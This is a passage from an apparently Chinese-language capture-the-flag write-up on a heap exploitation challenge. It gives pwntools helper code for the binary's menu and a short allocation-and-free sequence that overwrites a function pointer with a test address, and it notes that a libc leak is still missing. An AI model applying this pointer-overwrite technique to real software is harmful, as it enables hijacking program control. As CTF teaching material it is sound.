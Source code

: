```python
        sh.sendline(b"delete string")
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
    pause(time_)

```

先写好基本的菜单。

按照我们的思路，尝试覆盖一下

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
gdb_(1)
create(0x20, b'a'*0x10 + b'b'*0x08 + p64(0xdeadbeef))
```

![image-20220712220738138](https://cdn.novanoir.moe/img/image-20220712220738138.png)

可以看到，我们的`freeShort`函数已经被覆盖了，此时执行`delete(1)`，便会执行`0x00005571deadbeef`这个地址的函数，并且以`ptr`本身作为参数。

但是要注意的是，由于保护几乎是全开的，我们目前没有办法泄露`libc_base`

![checksec](https://cdn.novanoir.moe/img/image-20220712221051887.png)
